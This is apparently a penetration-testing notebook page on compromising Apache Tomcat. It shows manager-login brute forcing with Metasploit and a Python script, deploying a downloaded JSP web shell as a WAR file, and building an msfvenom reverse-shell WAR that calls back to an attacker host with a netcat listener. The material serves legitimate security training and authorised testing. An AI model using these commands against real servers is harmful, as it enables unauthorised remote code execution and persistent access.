 ```yaml
---
icon: cat
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Tomcat

If we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server. We can use the [auxiliary/scanner/http/tomcat\_mgr\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module for these purposes, Burp Suite Intruder or any number of scripts to achieve this.

## Login Brute Force

### Metasploit - tomcat\_mgr\_login

We must specify the vhost and the target's IP address to interact with the target properly. We should also set `STOP_ON_SUCCESS` to `true` so the scanner stops when we get a successful login, no use in generating loads of additional requests after a successful login.

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

<snip>
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Python Script: Tomcat-Manager-Bruteforce

{% hint style="info" %}
## Script Download:

[https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
{% endhint %}

```bash
python3 mgr_brute.py -U http://tomcat.acme.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

```
[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

## WAR File Upload

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application.

A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage. The manager web app allows us to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility.

A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

{% code title="Download Web Shell" %}
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```
{% endcode %}

{% code title="Archive" %}
```bash
zip -r backup.war cmd.jsp 
```
{% endcode %}

Click on `Browse` to select the .war file and then click on `Deploy`.

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table.

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

If we click on `backup`, we will get redirected to `http://web01.acme.com:8180/backup/` and get a `404 Not Found` error. We need to specify the `cmd.jsp` file in the URL as well. Browsing to `http://web01.acme.com:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server.

From here, we could upgrade our web shell to an interactive reverse shell and continue.

```bash
curl http://web01.acme.com:8180/backup/cmd.jsp?cmd=id
```

{% hint style="info" %}
## Clean Up & Note Taking

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`.

If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.
{% endhint %}

## Creating WAR Files

### MSFVenom

We could also use [msfvenom.md](../../../../toolbox/tooling/exploitation-tools/metasploit/msfvenom.md "mention") to generate a malicious WAR file. The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

Start a Netcat listener and click on `/backup` to execute the shell.

```bash
nc -lnvp 4443
```

{% hint style="success" %}
## Utilising Metasploit

The [multi/http/tomcat\_mgr\_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention") module can be used to automate this process.
{% endhint %}

{% hint style="danger" %}
## Web Shell Warning

When we upload web shells (especially on externals), we want to prevent unauthorised access. We should take certain measures such as a randomised file name (i.e., MD5 hash), limiting access to our source IP address, and even password protecting it. We don't want an attacker to come across our web shell and leverage it to gain their own foothold.
{% endhint %}
